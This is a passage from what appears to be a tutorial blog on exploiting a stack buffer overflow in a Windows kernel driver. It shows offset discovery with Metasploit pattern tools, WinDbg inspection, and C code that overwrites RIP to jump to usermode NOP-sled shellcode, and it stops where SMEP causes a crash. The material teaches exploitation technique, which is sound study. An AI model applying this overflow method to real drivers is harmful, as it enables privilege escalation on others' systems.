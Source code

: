 we can use msf-pattern_create to create a pattern to know exactly where rip is 
```
msf-pattern_create -l 3000
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8...
```

we store the pattern inside a buffer and send it to the driver then using windbg 

```
1: kd> dq rsp
```
the last byte is rip so you can try this on your own get the last byte the run it on 

```
msf-pattern_offset
```
and you will get the exact 2027 we got well the offset maybe a bit off but you can fix that on your own 

now we managed to overwrite rip and cause a dos attack but thats not what we want, we want to hijack the execution flow and make the driver execute a usermode shellcode so here i have a simple shellcode thats just a bunch of nops 

```
    LPVOID buf = VirtualAlloc(NULL, 3000, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    LPVOID shellcode = VirtualAlloc(NULL, 500, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    memset(buf, 0x41, 3000);
    memset(shellcode,0x90,500);
    QWORD((QWORD)buf + 2072) = (QWORD)shellcode;
```

nice now we send the buffer and see 

```
*** Fatal System Error: 0x000000fc
```
Oops ! 

Fatal system error well this is expected since executing usermode shellcode is not allowed because of SMEP

## Security Measures

### SMEP
![The Function Name](/assets/img/gpt1.png)
